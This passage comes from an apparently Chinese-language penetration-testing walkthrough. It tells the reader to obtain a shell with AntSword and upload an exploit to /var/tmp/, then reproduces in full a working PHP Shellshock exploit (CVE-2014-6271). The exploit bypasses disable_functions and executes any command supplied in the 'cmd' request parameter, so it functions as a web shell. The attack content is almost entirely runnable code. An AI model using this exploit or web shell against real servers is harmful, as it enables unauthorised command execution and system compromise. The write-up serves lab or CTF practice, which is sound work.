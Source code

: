 用蚁剑拿下shell并**在有写入权限的目录中**上传以下利用脚本，命名为exploit.php，这里传到/var/tmp/目录下：

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."\n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>

```

![image-20231022210226489](assets/image-20231022210226489.png)
